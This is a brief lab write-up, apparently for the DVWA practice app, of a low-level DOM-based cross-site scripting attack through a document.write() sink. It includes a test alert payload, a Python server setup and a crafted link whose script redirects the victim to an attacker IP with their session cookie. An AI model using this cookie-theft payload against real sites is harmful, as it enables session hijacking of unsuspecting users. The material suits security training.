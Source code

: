 ## XSS DOM low level

we go to [http://127.0.0.1/vulnerabilities/xss_d/?default=unique_message](http://127.0.0.1/vulnerabilities/xss_d/?default=Unique_message)

so we look in the inspection and control f our unique message 

we see that we have a document.write() sink 

check that 
```html
<script>alert('test')</script>
```

since this works, we set up a python sever 

```bash
python -m http.server 8000
```

and edit the link 

127.0.0.1/vulnerabilities/xss_d/?default=<script>window.location='http://192.169.1.5:1337/?cookie='+document.cookie</script> 


So that whenever the link is clicked , the script redirects the page to our server and passes as cookie argument the cookie of the victim

